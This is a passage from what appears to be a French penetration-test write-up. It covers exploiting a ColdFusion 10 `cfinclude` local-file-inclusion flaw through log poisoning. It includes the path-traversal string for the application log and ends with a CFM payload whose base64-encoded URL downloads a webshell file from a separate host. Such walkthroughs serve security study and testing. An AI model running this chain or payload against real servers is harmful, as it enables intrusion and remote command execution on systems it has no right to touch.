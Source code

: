 Cool ! Mais comme le serveur n'expose aucun service de contrôle d'accès ou de DB cela ne nous avance pas vraiment.  

Vous avez dit include ? Je dis log poisoning !
----------------------------------------------

Vous avez peut-être relevé la présence plus tôt d'une directive nommée `cfinclude` dans le message d'erreur de la page vulnérable :  

```html
<cfinclude template="../#data#">
```

Cette ligne signifie *inclus dans la page locale le template dont le path est donné via le paramètre data*. Et oui, ColdFusion propose une directive similaire à la fonction `include()` de PHP avec les mêmes risques ! (ce sont des blagueurs)

*ColdFusion* génère [différents fichier de logs](https://www.cfguide.io/coldfusion-administrator/debugging-logging-log-files/). Une technique d'empoisonnement des logs est décrite [pour un ColdFusion 8 ici](http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/).  

Nous allons l'appliquer sur notre ColdFusion 10. Pour avoir une idée du path à utiliser nous pouvons aussi fouiller dans le code de [Clusterd](https://github.com/tmcmil/clusterd), un outil d'exploitation pour cibler les serveurs JBoss, Tomcat, WebLogic, etc et bien sûr ColdFusion.  

Avant de se jeter dans l'injection d'une directive CFM valide il est préférable de vérifier que l'injection des caractères nécessaires se fera correctement. Ce serait dommage de se fermer la porte en bloquant l'interprétation du code CFM parce qu'on a utilisé des doubles quotes qui seraient échappées dans les logs.  

On va donc passer une valeur contenant les caractères souhaités dans le paramètre `data` vulnérable afin qu'ils se retrouvent dans le fichier de log `application.log` puis inclure `..\..\..\..\..\..\..\..\ColdFusion10\cfusion\logs\application.log` pour vérifier qu'ils ont été intégrés correctement :  

```
Could not find the included template ../yolo#'<>yolo.
Note: If you wish to use an absolute template path (for example, template=""/mypath/index.cfm"")
with CFINCLUDE, you must create a mapping for the path using the ColdFusion Administrator.
Or, you can use per-application settings to specify mappings specific to this application by specifying a mappings struct to
THIS.mappings in Application.cfc. <br> Using relative paths
(for example, template=""index.cfm"" or template=""../index.cfm"") does not
require the creation of any special mappings.
It is therefore recommended  that you use relative paths with CFINCLUDE whenever possible.
The specific sequence of files included or processed is: C:\home\target\wwwroot\website\content.cfm, line: 362 
```

Success ! Il ne reste qu'à injecter un code CFM qui nous donnera un webshell.  

On va reprendre le code présent dans l'article cité plus tôt :  

```html
<cfhttp method='get' url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#' path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'>
```
